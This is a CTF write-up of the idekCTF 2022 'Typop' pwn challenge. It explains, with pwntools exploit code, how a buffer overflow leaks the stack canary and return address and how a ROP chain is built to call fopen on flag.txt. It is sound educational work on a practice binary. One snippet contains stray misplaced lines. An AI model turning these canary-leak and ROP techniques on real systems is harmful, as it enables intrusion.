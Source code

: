 #+title: idek2022: Typop
#+AUTHOR: d0ntrash
#+subtitle: emacs everywhere
#+date: 2023-01-16
#+tags[]: pwn, ctf
* Pwn/Typop
** Challenge Info
   * Name: Typop
   * Author: JW#9396
   * Description: While writing the feedback form for idekCTF, JW made a small typo. It still compiled though, so what could possibly go wrong?
   * Link to files: [[https://idekctf-challenges.storage.googleapis.com/uploads/14d19059835451f069fc575d8b2b9818a1fc2e5c254fc1c36218e6220d29bdb1/typop.tar][idek2022]]
** Intro
   :PROPERTIES:
   :ID:       016f2d9c-2fde-478c-bb03-5f140e01edca
   :END:
   The challenge binary has only a few functions. In the ~main~ function not much happens besides ~getFeedback~ getting called in a ~while(true)~ loop:

   [[/blog/data/01/6f2d9c-2fde-478c-bb03-5f140e01edca/screenshot-20230116-135923.png]]

   The interesting parts are in the ~getFeedback~ function:

   [[/blog/data/01/6f2d9c-2fde-478c-bb03-5f140e01edca/screenshot-20230116-140358.png]]

   In both read functions there is a buffer overflow. However as we can see at the end of the function, the binary also uses stack canaries.
   So we can't just overflow the buffer to overwrite the return address because the ~__stack_chk_fail()~ check would fail.

*** Canary leak
    :PROPERTIES:
    :ID:       f1e4da43-eb15-4633-84cb-dac644906a77
    :END:
    To overflow the buffer without crashing the process we first need to leak the canary. Luckily, we can use the first
    ~read()~ call followed by the ~printf()~ call to leak the canary, then write the correct canary back using the second ~read()~ call.

    [[/blog/data/f1/e4da43-eb15-4633-84cb-dac644906a77/screenshot-20230116-142422.png]]

    In this case the canary is ~0x4f4bde881e0f0f00~ and comes directly after the input buffer. On Linux a stack canary always starts with a NULL byte.
    Since ~printf()~ always prints up to the next NULL byte we simply have to overflow the buffer by one byte to overwrite the NULL byte to print the
    stack canary followed by the ~rbp~ up to the next NULL byte.

    The following code snippet does exactly that:
    #+begin_src python
    r.recvuntil(b"Do you want to complete a survey?")
    r.sendline(b"y")
    r.recvuntil("Do you like ctf?\n")
    r.sendline(b'a'*offset_to_canary)
    r.recvline() # recv input to new line
    leak = r.recvline()
    canary = int.from_bytes(b'\x00' + leak[:7], 'little')
    rbp = int.from_bytes(leak[7:13], 'little')
    print(f'rbp:          {hex(rbp)}')
    print(f'canary:       {hex(canary)}')

        r = process([exe.path])
    return r
    #+end_src

    After the overflow the stack looks like this:

    [[/blog/data/f1/e4da43-eb15-4633-84cb-dac644906a77/screenshot-20230116-143231.png]]

    Now that we know the canary, we can use the second ~read()~ call to write it back to the stack.

    #+begin_src python
    r.recvuntil(b'Aww :( Can you provide some extra feedback?')
    r.sendline(b'a' * offset_to_canary + p64(canary))
    #+end_src

    When the ~getFeedback~ function gets called the second time we can use the information leak to leak the return address from
    the stack which points to the main function. From this point, the offset to the base address
    of the binary can be calculated which we can use to build our ROP chain.

    #+begin_src python
    r.recvuntil(b"Do you want to complete a survey?")
    r.sendline(b"y")
    r.recvuntil("Do you like ctf?\n")
    # leak return address to main
    r.sendline(b'a' * offset_to_ret)
    r.recvline() # recv input to new line
    ret_leak = int.from_bytes(r.recvline()[:6], 'little')
    # set base address
    exe.address = ret_leak - 0x1447
    #+end_src

    From here we could try to leak a libc address to ret2libc. In this case however, the binary contains a ~win~ function we can use
    which reads a file and prints its content:

    [[/blog/data/f1/e4da43-eb15-4633-84cb-dac644906a77/screenshot-20230116-150202.png]]

    Unfortunately, just overwriting the return address with the win address wont work since the ~win~ function takes 3 characters of the
    filename as parameters. The parameters are passed via the registers ~rdi~, ~rsi~ and ~rdx~. The registers ~rsi~ and ~rdi~ can be set
    by using simple ROP gadgets. For ~rdx~ however I did not find any useful gadgets.

    So instead of calling the entry point of the ~win~ function we can also call it with an offset to the point where ~fopen~ gets called.
    Therefore, we have to set the parameters for ~fopen~ befor jumping there. ~fopen~ takes a pointer to the filename and a pointer to a string containing
    the mode. Since we only need 2 parameters which get passed via ~rdi~ and ~rsi~ we can achieve this using our already found gadgets:

    #+begin_src python
    fopen = p64(exe.address + 0x12ba)
    pop_rdi = p64(exe.address + 0x14d3)
    pop_rsi_r15 = p64(exe.address + 0x14d1)
    read_mode_str = p64(exe.address + 0x2008)
    r.sendline(b'a' * offset_to_canary + p64(canary)
               # Overwrite rbp
               # Set offset big enough so fgets does not fuck up the stack
               + p64(rbp - 0x100)
               # ROP Chain:
               # pop pointer to 'flag.txt' string into rdi
               + pop_rdi + p64(rbp+0x28)
               # pop pointer to 'r' string into rsi
               + pop_rsi_r15 + read_mode_str + p64(0xdeadbeef)
               # return directly to fopen call in win function
               + fopen
               # filename string which will be used for fopen
               + b'flag.txt\x00\x00')
    #+end_src

    This will read the flag from the ~flag.txt~ file and print it to stdout.

    [[/blog/data/f1/e4da43-eb15-4633-84cb-dac644906a77/screenshot-20230116-152138.png]]
